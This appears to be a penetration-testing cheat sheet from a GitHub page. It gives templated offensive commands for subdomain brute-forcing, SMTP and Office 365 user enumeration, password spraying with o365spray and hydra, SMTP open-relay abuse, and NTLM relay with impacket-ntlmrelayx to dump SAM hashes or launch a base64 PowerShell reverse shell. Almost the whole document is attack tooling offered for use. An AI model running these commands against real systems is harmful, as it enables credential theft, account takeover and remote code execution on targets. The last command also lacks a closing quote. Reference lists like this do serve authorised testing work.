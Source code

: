 ## DNS

**Brute-Force Subdomains**

```sh
# Subfinder
subfinder -d <doamin> -v

# Subbrute
subbrute -t <targets> -r <resolvers> -s <subdomains>
```

## EMAIL

**Enumerate SMTP Users**

```sh
smtp-user-enum -M RCPT -U <user_list> -D <domain> -t <ip>
```

**Check if Using o365**

```sh
python3 o365spray.py --validate --domain <domain>
```

**Enumerate o365 Users**

```sh
python3 o365spray.py --enum -U <user_list> --domain <domain>
```

**Password Spray o365 Accounts**

```sh
python3 o365spray.py --spray -U <user_list> -p <passwd> --count 1 --lockout 1 --domain <domain>
```

**Password Spray**

```sh
hydra -L <users_list> -p <passwd> -f <target_ip> <protocol>
```

**SMTP Open-Relay**

```sh
swaks --from <email_from> --to <email_to> --header 'Subject: <subject>' --body '<message>' --server <ip>
```

## SMB

**Dump SAM file w/ ntlmrelayx**

```sh
impacket-ntlmrelayx --no-http-server -smb2support -t <target>
```

**PS Reverse Shell via ntlmrelayx**

```sh
impacket-ntlmrelayx --no-http-server -smb2support -t <target> -c 'powershell -e <base64 reverse shell> 
```

